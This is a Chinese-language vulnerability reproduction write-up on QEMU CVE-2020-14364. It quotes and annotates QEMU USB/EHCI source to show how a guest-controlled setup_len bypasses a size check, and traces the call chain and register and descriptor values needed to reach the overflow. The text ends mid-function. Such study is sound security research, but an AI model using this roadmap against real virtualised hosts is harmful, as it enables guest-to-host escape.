花了好几天时间复现，尝试仔细分析了源码，有了一些清晰的认识，但是还有一些认识比较模糊，总的来说弄明白了整个利用的流程，在这里先小做记录

参考文章：

(1) https://mp.weixin.qq.com/s/IEbbYUSLyzu5JQ9y3w9uaQ

(2) https://lst-oss.github.io/2024/08/23/QEMU-CVE-2020-14364%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/

(3) https://xtxtn.github.io/2023/10/11/CVE-2020-14364/

(4) https://xz.aliyun.com/news/7915

‍

# 环境搭建

## qemu编译

漏洞复现Qemu版本为`v4.2.1`，按照参考文章(2)来即可，但是会遇到如下报错，



原因：

> 真正导致失败的是 ld: Error: unable to disambiguate: -nopie，不是前面的 pvh_main.c warning。
>
> 在顶层构建时清空 LDFLAGS_NOPIE，optionrom 可以顺利过，pvh.img 也能生成

解决方法1：

```bash
make -j4 -C /home/ret2z/qemu-7.0.0/qemu-4.2.1/build LDFLAGS_NOPIE=

sudo make install
```

法2：

```bash
  1. 最小改法：只在 qemu-4.2.1/pc-bios/optionrom/Makefile:50 和 qemu-4.2.1/pc-bios/optionrom/Makefile:53 去掉 $(LDFLAGS_NOPIE)。
  2. 或者改 configure，不要给“直接调用 ld 的场景”生成 -nopie。
```

## 镜像 + usb生成

根据参考文章(4)来实现

```text
创建qcow2硬盘文件：
qemu-img create -f qcow2 ubuntu-server.qcow2 5G
制作linux qcow2镜像：
sudo kvm -m 1028 -cdrom /mnt/hgfs/Share/VM-study/ubuntu-18.04.5-live-server-amd64.iso -drive file=ubuntu-server.qcow2,if=virtio -net nic,model=virtio -net tap,script=no -boot d -vnc :0
这里的命令需要替换一下，因为我的机械革命主机没法开启vmware硬件虚拟化，用不了kvm
sudo qemu-system-x86_64 -m 1028 -cdrom ./ubuntu-18.04.5-live-server-amd64.iso -drive file=ubuntu-server.qcow2,if=virtio -net nic,model=virtio -net tap,script=no -boot d -vnc :0

后续使用vnc-view连接 127.0.0.1:0 进行系统安装
```

build.sh

```c
sudo env LD_LIBRARY_PATH=/usr/lib/x86_64-linux-gnu kvm -m 1028 -cdrom ./ubuntu-18.04.6-desktop-amd64.iso -drive file=ubuntu-server.qcow2,if=virtio -net nic,model=virtio -net tap,script=no -boot d -vnc :0
```

start.sh

```c
sudo -E ./qemu-4.2.1 \
    -machine q35 \
    -m 1G \
    -hda ubuntu-server.qcow2 \
    -device e1000,netdev=net0 \
    -netdev user,id=net0,hostfwd=tcp::5555-:22 \
    -enable-kvm \
    -usb \
    -drive if=none,format=raw,id=disk1,file=./disk_01.img \
    -device usb-storage,drive=disk1 \
    -device qxl-vga
```

成功启动

‍

# 漏洞分析

## 漏洞点

###### do_token_setup

```c
static void do_token_setup(USBDevice *s, USBPacket *p)
{
    int request, value, index;

    if (p->iov.size != 8) {
        p->status = USB_RET_STALL;
        return;
    }

    usb_packet_copy(p, s->setup_buf, p->iov.size);				// usb_packet_copy
    s->setup_index = 0;
    p->actual_length = 0;
    s->setup_len   = (s->setup_buf[7] << 8) | s->setup_buf[6];	// 这里直接赋值
    if (s->setup_len > sizeof(s->data_buf)) {					// 检查失效
        fprintf(stderr,
                "usb_generic_handle_packet: ctrl buffer too small (%d > %zu)\n",
                s->setup_len, sizeof(s->data_buf));
        p->status = USB_RET_STALL;
        return;
    }

    request = (s->setup_buf[0] << 8) | s->setup_buf[1];
    value   = (s->setup_buf[3] << 8) | s->setup_buf[2];
    index   = (s->setup_buf[5] << 8) | s->setup_buf[4];

    if (s->setup_buf[0] & USB_DIR_IN) {
        usb_device_handle_control(s, p, request, value, index,
                                  s->setup_len, s->data_buf);
        if (p->status == USB_RET_ASYNC) {
            s->setup_state = SETUP_STATE_SETUP;
        }
        if (p->status != USB_RET_SUCCESS) {
            return;
        }

        if (p->actual_length < s->setup_len) {
            s->setup_len = p->actual_length;
        }
        s->setup_state = SETUP_STATE_DATA;
    } else {
        if (s->setup_len == 0)
            s->setup_state = SETUP_STATE_ACK;
        else
            s->setup_state = SETUP_STATE_DATA;
    }

    p->actual_length = 8;
}
```

漏洞位于这一句中通过`s->setup_buf[6:8]`​直接为`s->setup_len`赋值：

`s->setup_len   = (s->setup_buf[7] << 8) | s->setup_buf[6];`

导致后续的检查语句`if (s->setup_len > sizeof(s->data_buf))`​失效，虽然会退出，但是`setup_len`已经被赋值了

上面的函数有两个参数，两个参数的类型分别为结构体`USBDevice`​和`USBPacket`​，来看一下这两个结构体定义和关键函数`usb_packet_copy`

###### USBDevice & USBPacket

```c
/* definition of a USB device */
struct USBDevice {
    DeviceState qdev;
    USBPort *port;
    char *port_path;
    char *serial;
    void *opaque;
    uint32_t flags;

    /* Actual connected speed */
    int speed;
    /* Supported speeds, not in info because it may be variable (hostdevs) */
    int speedmask;
    uint8_t addr;
    char product_desc[32];
    int auto_attach;
    bool attached;

    int32_t state;
    uint8_t setup_buf[8];		// setup_buf
    uint8_t data_buf[4096];		// data_buf
    int32_t remote_wakeup;
    int32_t setup_state;
    int32_t setup_len;			// setup_len
    int32_t setup_index;

    USBEndpoint ep_ctl;
    USBEndpoint ep_in[USB_MAX_ENDPOINTS];
    USBEndpoint ep_out[USB_MAX_ENDPOINTS];

    QLIST_HEAD(, USBDescString) strings;
    const USBDesc *usb_desc; /* Overrides class usb_desc if not NULL */
    const USBDescDevice *device;

    int configuration;
    int ninterfaces;
    int altsetting[USB_MAX_INTERFACES];
    const USBDescConfig *config;
    const USBDescIface  *ifaces[USB_MAX_INTERFACES];
};

// =============================================================================================

/* Structure used to hold information about an active USB packet.  */
struct USBPacket {
    /* Data fields for use by the driver.  */
    int pid;
    uint64_t id;
    USBEndpoint *ep;
    unsigned int stream;
    QEMUIOVector iov;
    uint64_t parameter; /* control transfers */
    bool short_not_ok;
    bool int_req;
    int status; /* USB_RET_* status code */
    int actual_length; /* Number of bytes actually transferred */
    /* Internal use by the USB layer.  */
    USBPacketState state;
    USBCombinedPacket *combined;
    QTAILQ_ENTRY(USBPacket) queue;
    QTAILQ_ENTRY(USBPacket) combined_entry;
};
```

在`USBDevice`​中，`setup_buf[6:8]`​是决定`setup_len`​的关键要素，`setup_len`​又决定了`data_buf`的溢出与否

具体的来看溢出在哪里触发的话，是在`do_token_in`​/`do_token_out`​两个函数中的`usb_packet_copy`导致的

###### do_token_in & do_token_out & usb_packet_copy

```c
static void do_token_in(USBDevice *s, USBPacket *p)
{
    int request, value, index;

    assert(p->ep->nr == 0);

    request = (s->setup_buf[0] << 8) | s->setup_buf[1];
    value   = (s->setup_buf[3] << 8) | s->setup_buf[2];
    index   = (s->setup_buf[5] << 8) | s->setup_buf[4];

    switch(s->setup_state) {
    case SETUP_STATE_ACK:
		// ……
        break;

    case SETUP_STATE_DATA:
        if (s->setup_buf[0] & USB_DIR_IN) {
            int len = s->setup_len - s->setup_index;
            if (len > p->iov.size) {
                len = p->iov.size;
            }
            usb_packet_copy(p, s->data_buf + s->setup_index, len);
            s->setup_index += len;
            if (s->setup_index >= s->setup_len) {
                s->setup_state = SETUP_STATE_ACK;
            }
            return;
        }
        s->setup_state = SETUP_STATE_IDLE;
        p->status = USB_RET_STALL;
        break;

    default:
        p->status = USB_RET_STALL;
    }
}

// =============================================================================================

static void do_token_out(USBDevice *s, USBPacket *p)
{
    assert(p->ep->nr == 0);

    switch(s->setup_state) {
    case SETUP_STATE_ACK:
		// ……
        break;

    case SETUP_STATE_DATA:
        if (!(s->setup_buf[0] & USB_DIR_IN)) {
            int len = s->setup_len - s->setup_index;
            if (len > p->iov.size) {
                len = p->iov.size;
            }
            usb_packet_copy(p, s->data_buf + s->setup_index, len);	// 
            s->setup_index += len;
            if (s->setup_index >= s->setup_len) {
                s->setup_state = SETUP_STATE_ACK;
            }
            return;
        }
        s->setup_state = SETUP_STATE_IDLE;
        p->status = USB_RET_STALL;
        break;

    default:
        p->status = USB_RET_STALL;
    }
}

// =============================================================================================

void usb_packet_copy(USBPacket *p, void *ptr, size_t bytes)
{
    QEMUIOVector *iov = p->combined ? &p->combined->iov : &p->iov;

    assert(p->actual_length >= 0);
    assert(p->actual_length + bytes <= iov->size);
    switch (p->pid) {
    case USB_TOKEN_SETUP:
    case USB_TOKEN_OUT:
        iov_to_buf(iov->iov, iov->niov, p->actual_length, ptr, bytes);
        break;
    case USB_TOKEN_IN:
        iov_from_buf(iov->iov, iov->niov, p->actual_length, ptr, bytes);
        break;
    default:
        fprintf(stderr, "%s: invalid pid: %x\n", __func__, p->pid);
        abort();
    }
    p->actual_length += bytes;
}
```

`usb_packet_copy`​是一个关键函数，根据`p->pid`​调用了`iov_to_buf`​、`iov_from_buf`等关键函数，这两个函数是触发溢出最终的落脚点

`do_token_in`​和`do_token_out`​的代码是几乎一致的，`usb_packet_copy`​的参数完全一致，根据不同的`case`，可以分成两种作用：

1. `in`​：`iov_from_buf`

   把`s->data_buf + s->setup_index`​复制到`iov[]->iov.base`中，实现设备空间读
2. `out`​：`iov_to_buf`

   把`iov[]->iov.base`​复制到`s->data_buf + s->setup_index`中，实现设备空间写

在`do_toke_in`​/`do_token_out`​中传入的参数`len`赋值方法：

```c
int len = s->setup_len - s->setup_index;
if (len > p->iov.size) {
    len = p->iov.size;
}
```

所以，想要溢出还必须控制`p->iov.size`​，回顾`USBPacket`​的结构体，`p->iov`​的类型是`QEMUVector`​，查看这个的`QEMUVector`结构体

‍

###### QEMUVector & iov_from_buf & iov_to_buf

```c
typedef struct QEMUIOVector {
    struct iovec *iov;
    int niov;

    /*
     * For external @iov (qemu_iovec_init_external()) or allocated @iov
     * (qemu_iovec_init()), @size is the cumulative size of iovecs and
     * @local_iov is invalid and unused.
     *
     * For embedded @iov (QEMU_IOVEC_INIT_BUF() or qemu_iovec_init_buf()),
     * @iov is equal to &@local_iov, and @size is valid, as it has same
     * offset and type as @local_iov.iov_len, which is guaranteed by
     * static assertion below.
     *
     * @nalloc is always valid and is -1 both for embedded and external
     * cases. It is included in the union only to ensure the padding prior
     * to the @size field will not result in a 0-length array.
     */
    union {
        struct {
            int nalloc;
            struct iovec local_iov;
        };
        struct {
            char __pad[sizeof(int) + offsetof(struct iovec, iov_len)];
            size_t size;
        };
    };
} QEMUIOVector;


struct iovec {
    void *iov_base;
    size_t iov_len;
};

// =============================================================================================

static inline size_t
iov_from_buf(const struct iovec *iov, unsigned int iov_cnt,
             size_t offset, const void *buf, size_t bytes)
{
    if (__builtin_constant_p(bytes) && iov_cnt &&
        offset <= iov[0].iov_len && bytes <= iov[0].iov_len - offset) {
        memcpy(iov[0].iov_base + offset, buf, bytes);
        return bytes;
    } else {
        return iov_from_buf_full(iov, iov_cnt, offset, buf, bytes);
    }
}

// =============================================================================================

static inline size_t
iov_to_buf(const struct iovec *iov, const unsigned int iov_cnt,
           size_t offset, void *buf, size_t bytes)
{
    if (__builtin_constant_p(bytes) && iov_cnt &&
        offset <= iov[0].iov_len && bytes <= iov[0].iov_len - offset) {
        memcpy(buf, iov[0].iov_base + offset, bytes);
        return bytes;
    } else {
        return iov_to_buf_full(iov, iov_cnt, offset, buf, bytes);
    }
}
```

这里分析一下`QEMUIOVector`这个结构体：

`QEMUIOVector`​实现了`iovec`​类型的`iov`​的动态数组，`nalloc`是动态数组的长度

`union`​里两个，第一个`struct`​对应动态数组时，第二个对应兼容了单个`iov`

可知，如果p是`USBPacket*`​类型，那么`p->iov`​类型是`QEMUIOVector`​，`p->iov->iov`​类型是`struct iovec`​，对应着数组的起始`iov`

‍

现在小结一下现在的发现和接下来一步的思路、想法

1. `do_token_setup`​作为关键的漏洞点，必须要被调用到，所以应当寻找其`caller`
2. 在`do_token_in/out`​中需要控制另外一个变量`p->iov.token`怎么控制

‍

## 调用链分析

这里采用调试方法定位调用链，在启动时查看调用链得到：



但是与我看的博客中预期的调用链不符合，在尝试进入系统之后，用exp脚本执行后触发的调用链如下：



> do_token_setup <— usb_process_one <— usb_handle_packet <— ehci_execute <— ehci_state_execute <— ehci_advance_state <— ehci_advance_periodic_state <— ehci_work_bh

‍

###### ehci_work_bh & ehci_update_frindex & ehci_enabled & EHCIState

```c
static void ehci_work_bh(void *opaque)
{
    EHCIState *ehci = opaque;
    int need_timer = 0;
    int64_t expire_time, t_now;
    uint64_t ns_elapsed;
    uint64_t uframes, skipped_uframes;
    int i;

    if (ehci->working) {
        return;
    }
    ehci->working = true;

    t_now = qemu_clock_get_ns(QEMU_CLOCK_VIRTUAL);
    ns_elapsed = t_now - ehci->last_run_ns;
    uframes = ns_elapsed / UFRAME_TIMER_NS;

    if (ehci_periodic_enabled(ehci) || ehci->pstate != EST_INACTIVE) {		【1】
        need_timer++;

        if (uframes > (ehci->maxframes * 8)) {
            skipped_uframes = uframes - (ehci->maxframes * 8);
            ehci_update_frindex(ehci, skipped_uframes);
            ehci->last_run_ns += UFRAME_TIMER_NS * skipped_uframes;
            uframes -= skipped_uframes;
            DPRINTF("WARNING - EHCI skipped %d uframes\n", skipped_uframes);
        }

        for (i = 0; i < uframes; i++) {
            /*
             * If we're running behind schedule, we should not catch up
             * too fast, as that will make some guests unhappy:
             * 1) We must process a minimum of MIN_UFR_PER_TICK frames,
             *    otherwise we will never catch up
             * 2) Process frames until the guest has requested an irq (IOC)
             */
            if (i >= MIN_UFR_PER_TICK) {
                ehci_commit_irq(ehci);
                if ((ehci->usbsts & USBINTR_MASK) & ehci->usbintr) {
                    break;
                }
            }
            if (ehci->periodic_sched_active) {
                ehci->periodic_sched_active--;
            }
            ehci_update_frindex(ehci, 1);
            if ((ehci->frindex & 7) == 0) {						
				// =====================================================
                ehci_advance_periodic_state(ehci);
				// =====================================================
            }
            ehci->last_run_ns += UFRAME_TIMER_NS;
        }
    } else {
        ehci->periodic_sched_active = 0;
        ehci_update_frindex(ehci, uframes);
        ehci->last_run_ns += UFRAME_TIMER_NS * uframes;
    }
	
	// ……
	
}

// =============================================================================================

static void ehci_update_frindex(EHCIState *ehci, int uframes)
{
    if (!ehci_enabled(ehci) && ehci->pstate == EST_INACTIVE) {
        return;
    }

    /* Generate FLR interrupt if frame index rolls over 0x2000 */
    if ((ehci->frindex % 0x2000) + uframes >= 0x2000) {
        ehci_raise_irq(ehci, USBSTS_FLR);
    }

    /* How many times will frindex roll over 0x4000 with this frame count?
     * usbsts_frindex is decremented by 0x4000 on rollover until it reaches 0
     */
    int rollovers = (ehci->frindex + uframes) / 0x4000;
    if (rollovers > 0) {
        if (ehci->usbsts_frindex >= (rollovers * 0x4000)) {
            ehci->usbsts_frindex -= 0x4000 * rollovers;
        } else {
            ehci->usbsts_frindex = 0;
        }
    }

    ehci->frindex = (ehci->frindex + uframes) % 0x4000;
}

// =============================================================================================

static inline bool ehci_periodic_enabled(EHCIState *s)
{
    return ehci_enabled(s) && (s->usbcmd & USBCMD_PSE);
}

// =============================================================================================

static inline bool ehci_enabled(EHCIState *s)
{
    return s->usbcmd & USBCMD_RUNSTOP;
}

// =============================================================================================

struct EHCIState {
    USBBus bus;
    DeviceState *device;
    qemu_irq irq;
    MemoryRegion mem;
    AddressSpace *as;
    MemoryRegion mem_caps;
    MemoryRegion mem_opreg;
    MemoryRegion mem_ports;
    int companion_count;
    bool companion_enable;
    uint16_t capsbase;
    uint16_t opregbase;
    uint16_t portscbase;
    uint16_t portnr;

    /* properties */
    uint32_t maxframes;

    /*
     *  EHCI spec version 1.0 Section 2.3
     *  Host Controller Operational Registers
     */
    uint8_t caps[CAPA_SIZE];
    union {
        uint32_t opreg[0x44/sizeof(uint32_t)];
        struct {
            uint32_t usbcmd;
            uint32_t usbsts;
            uint32_t usbintr;
            uint32_t frindex;
            uint32_t ctrldssegment;
            uint32_t periodiclistbase;
            uint32_t asynclistaddr;
            uint32_t notused[9];
            uint32_t configflag;
        };
    };
    uint32_t portsc[NB_PORTS];

    /*
     *  Internal states, shadow registers, etc
     */
    QEMUTimer *frame_timer;
    QEMUBH *async_bh;
    bool working;
    uint32_t astate;         /* Current state in asynchronous schedule */
    uint32_t pstate;         /* Current state in periodic schedule     */
    USBPort ports[NB_PORTS];
    USBPort *companion_ports[NB_PORTS];
    uint32_t usbsts_pending;
    uint32_t usbsts_frindex;
    EHCIQueueHead aqueues;
    EHCIQueueHead pqueues;

    /* which address to look at next */
    uint32_t a_fetch_addr;
    uint32_t p_fetch_addr;

    USBPacket ipacket;
    QEMUSGList isgl;

    uint64_t last_run_ns;
    uint32_t async_stepdown;
    uint32_t periodic_sched_active;
    bool int_req_by_async;
    VMChangeStateEntry *vmstate;
};
```

`ehci_update_frindex(ehci, 1);`​每次对`frindex`​自增`1`​，每当成为8的整数倍时就调用一次目标函数`ehci_advance_periodic_state`

根据`ehci_periodic_enabled`​和`ehci_enabled`​可知`usb->cmd`​需要设置成`USBCMD_RUNSTOP | USBCMD_PSE`

‍

###### ehci_advance_periodic_state

```c
static void ehci_advance_periodic_state(EHCIState *ehci)
{
    uint32_t entry;
    uint32_t list;
    const int async = 0;

    // 4.6

    switch(ehci_get_state(ehci, async)) {
    case EST_INACTIVE:
        if (!(ehci->frindex & 7) && ehci_periodic_enabled(ehci)) {
            ehci_set_state(ehci, async, EST_ACTIVE);
            // No break, fall through to ACTIVE
        } else
            break;

    case EST_ACTIVE:
        if (!(ehci->frindex & 7) && !ehci_periodic_enabled(ehci)) {
            ehci_queues_rip_all(ehci, async);
            ehci_set_state(ehci, async, EST_INACTIVE);
            break;
        }

        list = ehci->periodiclistbase & 0xfffff000;			【1】
        /* check that register has been set */
        if (list == 0) {
            break;
        }
        list |= ((ehci->frindex & 0x1ff8) >> 1);			【2】

        if (get_dwords(ehci, list, &entry, 1) < 0) {		【3】
            break;
        }

        DPRINTF("PERIODIC state adv fr=%d.  [%08X] -> %08X\n",
                ehci->frindex / 8, list, entry);
        ehci_set_fetch_addr(ehci, async,entry);				【4】
        ehci_set_state(ehci, async, EST_FETCHENTRY);		【5】
        ehci_advance_state(ehci, async);					【6】
        ehci_queues_rip_unused(ehci, async);
        break;

    default:
        /* this should only be due to a developer mistake */
        fprintf(stderr, "ehci: Bad periodic state %d. "
                "Resetting to active\n", ehci->pstate);
        g_assert_not_reached();
    }
}

```

第【1】步为：取`periodiclistbase`​的基地址，赋值给`list`

第【2】步为：获得类似于“页内偏移”，偏移的单位为4字节，相当于`(ehci->frindex>>1)&0xff4`

如果设置`periodiclistbase`​为`addr`​，当第一次满足`ehci_advance_periodic_state`​的调用条件时，`frindex`​为`8`​，所以`list = addr + 4`

‍

接下来从【3】的`get_dwords`开始分析

###### get_dwords & ehci_set_fetch_addr & ehci_set_state & ehci_advance_state & ehci_state_fetchentry & ehci_get_fetch_addr

```c
static inline int get_dwords(EHCIState *ehci, uint32_t addr,
                             uint32_t *buf, int num)
{
    int i;

    if (!ehci->as) {
        ehci_raise_irq(ehci, USBSTS_HSE);
        ehci->usbcmd &= ~USBCMD_RUNSTOP;
        trace_usb_ehci_dma_error();
        return -1;
    }

    for (i = 0; i < num; i++, buf++, addr += sizeof(*buf)) {
        dma_memory_read(ehci->as, addr, buf, sizeof(*buf));
        *buf = le32_to_cpu(*buf);
    }

    return num;
}

// =============================================================================================

static void ehci_set_fetch_addr(EHCIState *s, int async, uint32_t addr)
{
    if (async) {
        s->a_fetch_addr = addr;
    } else {
        s->p_fetch_addr = addr;
    }
}

// =============================================================================================

static void ehci_set_state(EHCIState *s, int async, int state)
{
    if (async) {
        trace_usb_ehci_state("async", state2str(state));
        s->astate = state;
        if (s->astate == EST_INACTIVE) {
            ehci_clear_usbsts(s, USBSTS_ASS);
            ehci_update_halt(s);
        } else {
            ehci_set_usbsts(s, USBSTS_ASS);
        }
    } else {
        trace_usb_ehci_state("periodic", state2str(state));
        s->pstate = state;
        if (s->pstate == EST_INACTIVE) {
            ehci_clear_usbsts(s, USBSTS_PSS);
            ehci_update_halt(s);
        } else {
            ehci_set_usbsts(s, USBSTS_PSS);
        }
    }
}

// =============================================================================================

static void ehci_advance_state(EHCIState *ehci, int async)
{
    EHCIQueue *q = NULL;
    int itd_count = 0;
    int again;

    do {
        switch(ehci_get_state(ehci, async)) {
        case EST_WAITLISTHEAD:
            again = ehci_state_waitlisthead(ehci, async);
            break;

        case EST_FETCHENTRY:								【第一次进入的分支】
            again = ehci_state_fetchentry(ehci, async);		【7】
            break;

		case EST_FETCHQH:									【另一个分支】  <-----------------------------|
            q = ehci_state_fetchqh(ehci, async);			【8】										|
            if (q != NULL) {																			|
                assert(q->async == async);																|
                again = 1;																				|
            } else {																					|
                again = 0;																				|
            }																							|
            break;																						|
																										|
		【……】																							|
																										|
		case EST_EXECUTE:																				|
            assert(q != NULL);																			|
            again = ehci_state_execute(q);					【9】										|
            if (async) {																				|
                ehci->async_stepdown = 0;																|
            }																							|
            break;																						|
																										|
		【……】																							|
																										|
        }																								|
																										|
        if (again < 0 || itd_count > 16) {																|
            /* TODO: notify guest (raise HSE irq?) */													|
            fprintf(stderr, "processing error - resetting ehci HC\n");									|
            ehci_reset(ehci);																			|
            again = 0;																					|
        }																								|
    }																									|
    while (again);																						|
}																										|
																										|
// =============================================================================================		|
																										|
static int ehci_state_fetchentry(EHCIState *ehci, int async)											|
{																										|
    int again = 0;																						|
    uint32_t entry = ehci_get_fetch_addr(ehci, async);		【10】										|
																										|	
	【……】																								|
																										|
    switch (NLPTR_TYPE_GET(entry)) {																	|
    case NLPTR_TYPE_QH:																					|
        ehci_set_state(ehci, async, EST_FETCHQH);			【设置state为EST_FETCHQH】					|
															【下次进入另一分支】---------------------------|
        again = 1;
        break;

    【……】

    }

out:
    return again;
}

// =============================================================================================

static int ehci_get_fetch_addr(EHCIState *s, int async)
{
    return async ? s->a_fetch_addr : s->p_fetch_addr;
}
```

`dma_memory_read`就是从物理地址中读取数据

`get_dwords`​将`list`​上的内容写入`entry`​，而前面分析了此时`list`​上为`addr + 4`​，所以`*entry = *(addr + 4)`

然后是【4】，将`list`​中的内容，即`*entry`​赋值给`s->p_fetch_addr`

然后是【5】，`ehci_set_state(ehci, async, EST_FETCHENTRY);`​将`state`​设置成`EST_FETCHENTRY`

然后是【6】，`ehci_advance_state`​的`EST_FETCHENTRY`​分支，调用了【7】`ehci_state_fetchentry(ehci, async)`

在【7】中：

1. 首先是调用了【10】，所以这里的`entry`​就是之前的`*(addr + 4)`；
2. 然后是`NLPTR_TYPE_GET(entry)`​决定了分支，我们希望它能够进入`case NLPTR_TYPE_QH`​分支，这样就可以在下一次调用时进入`ehci_advance_state`​的`case EST_FETCHQH`分支进而调用【8】了

‍

综上，我们希望能够实现：`NLPTR_TYPE_GET(entry) == NLPTR_TYPE_QH`

来看一看这两个宏：

```c
#define NLPTR_TYPE_QH            1     // queue head
#define NLPTR_TYPE_GET(x)        (((x) >> 1) & 3)
```

填入`addr + 4`​中的数应当是一个`0x10`​对齐的整数，如果希望其右移1位后与3结果为1，则方法应该是让其加上2，即填入的数字应当是`vir2phy(qh) + 2`​，`vir2phy(qh)`​是`qh`的物理地址

‍

接下来再看【8】调用`q = ehci_state_fetchqh(ehci, async);`​得到`qh`

###### ehci_state_fetchqh

```c
static EHCIQueue *ehci_state_fetchqh(EHCIState *ehci, int async)
{
    uint32_t entry;
    EHCIQueue *q;
    EHCIqh qh;

    entry = ehci_get_fetch_addr(ehci, async);			// 获取entry
    q = ehci_find_queue_by_qh(ehci, entry, async);		// 在queue中寻找是否已有entry在
    if (q == NULL) {									// 没有则创建一个放进queue中
        q = ehci_alloc_queue(ehci, entry, async);
    }

    q->seen++;											// 防止queue成环
    if (q->seen > 1) {
        /* we are going in circles -- stop processing */
        ehci_set_state(ehci, async, EST_ACTIVE);
        q = NULL;
        goto out;
    }

    if (get_dwords(ehci, NLPTR_GET(q->qhaddr),			// 从客户机内存读取qh的内容
                   (uint32_t *) &qh, sizeof(EHCIqh) >> 2) < 0) {
        q = NULL;
        goto out;
    }
    ehci_trace_qh(q, NLPTR_GET(q->qhaddr), &qh);

    /*
     * The overlay area of the qh should never be changed by the guest,
     * except when idle, in which case the reset is a nop.
     */
    if (!ehci_verify_qh(q, &qh)) {
        if (ehci_reset_queue(q) > 0) {
            ehci_trace_guest_bug(ehci, "guest updated active QH");
        }
    }
    q->qh = qh;											// 从客户机读取到的qh存储到q->qh中

    q->transact_ctr = get_field(q->qh.epcap, QH_EPCAP_MULT);
    if (q->transact_ctr == 0) { /* Guest bug in some versions of windows */
        q->transact_ctr = 4;
    }

    if (q->dev == NULL) {
        q->dev = ehci_find_device(q->ehci,
                                  get_field(q->qh.epchar, QH_EPCHAR_DEVADDR));
    }

    if (async && (q->qh.epchar & QH_EPCHAR_H)) {

        /*  EHCI spec version 1.0 Section 4.8.3 & 4.10.1 */
        if (ehci->usbsts & USBSTS_REC) {
            ehci_clear_usbsts(ehci, USBSTS_REC);
        } else {
            DPRINTF("FETCHQH:  QH 0x%08x. H-bit set, reclamation status reset"
                       " - done processing\n", q->qhaddr);
            ehci_set_state(ehci, async, EST_ACTIVE);
            q = NULL;
            goto out;
        }
    }

    if (q->qh.token & QTD_TOKEN_HALT) {
        ehci_set_state(ehci, async, EST_HORIZONTALQH);

    } else if ((q->qh.token & QTD_TOKEN_ACTIVE) &&
               (NLPTR_TBIT(q->qh.current_qtd) == 0) &&
               (q->qh.current_qtd != 0)) {
        q->qtdaddr = q->qh.current_qtd;
        ehci_set_state(ehci, async, EST_FETCHQTD);

    } else {
        /*  EHCI spec version 1.0 Section 4.10.2 */
        ehci_set_state(ehci, async, EST_ADVANCEQUEUE);
    }

out:
    return q;
}
```

我们的目标是执行【9】，即调用`ehci_state_execute(q)`​，这需要`ehci_get_state(ehci, async) == EST_EXECUTE`​，但是这里怎么执行到的文章里并没有交代，其实是同样经过几次`ehci_advance_state`​内`do-while`​循环状态之间的转化之后进入`ehci_state_execute`的分支

代码的一些注释在源码中，剩下的部分继续解释：

```c
    if (q->dev == NULL) {
        q->dev = ehci_find_device(q->ehci,
                                  get_field(q->qh.epchar, QH_EPCHAR_DEVADDR));
    }
```

`q->dev = ehci_find_device(...)`​通过设备地址，在当前`EHCI`总线挂载的设备列表中找到对应设备对象

‍

‍

###### ehci_state_execute

```c
static int ehci_state_execute(EHCIQueue *q)
{
    EHCIPacket *p = QTAILQ_FIRST(&q->packets);
    int again = 0;

	// ……

    if (q->async) {
        ehci_set_usbsts(q->ehci, USBSTS_REC);
    }

    again = ehci_execute(p, "process");

	// ……

}
```

直接取`q->packets`​的第一个`packets`​进入`ehci_execute`

‍

###### ehci_execute & EHCIqtd & EHCIqh & ehci_get_pid

```c
static int ehci_execute(EHCIPacket *p, const char *action)
{
    USBEndpoint *ep;
    int endp;
    bool spd;

    assert(p->async == EHCI_ASYNC_NONE ||
           p->async == EHCI_ASYNC_INITIALIZED);

    if (!(p->qtd.token & QTD_TOKEN_ACTIVE)) {								【1】
        fprintf(stderr, "Attempting to execute inactive qtd\n");
        return -1;
    }

    if (get_field(p->qtd.token, QTD_TOKEN_TBYTES) > BUFF_SIZE) {			【2】
        ehci_trace_guest_bug(p->queue->ehci,
                             "guest requested more bytes than allowed");
        return -1;
    }

    if (!ehci_verify_pid(p->queue, &p->qtd)) {
        ehci_queue_stopped(p->queue); /* Mark the ep in the prev dir stopped */
    }
    p->pid = ehci_get_pid(&p->qtd);											【3】
    p->queue->last_pid = p->pid;
    endp = get_field(p->queue->qh.epchar, QH_EPCHAR_EP);
    ep = usb_ep_get(p->queue->dev, p->pid, endp);

    if (p->async == EHCI_ASYNC_NONE) {
        if (ehci_init_transfer(p) != 0) {
            return -1;
        }

        spd = (p->pid == USB_TOKEN_IN && NLPTR_TBIT(p->qtd.altnext) == 0);
        usb_packet_setup(&p->packet, p->pid, ep, 0, p->qtdaddr, spd,
                         (p->qtd.token & QTD_TOKEN_IOC) != 0);
        usb_packet_map(&p->packet, &p->sgl);
        p->async = EHCI_ASYNC_INITIALIZED;
    }

    trace_usb_ehci_packet_action(p->queue, p, action);
    usb_handle_packet(p->queue->dev, &p->packet);							【4】
    DPRINTF("submit: qh 0x%x next 0x%x qtd 0x%x pid 0x%x len %zd endp 0x%x "
            "status %d actual_length %d\n", p->queue->qhaddr, p->qtd.next,
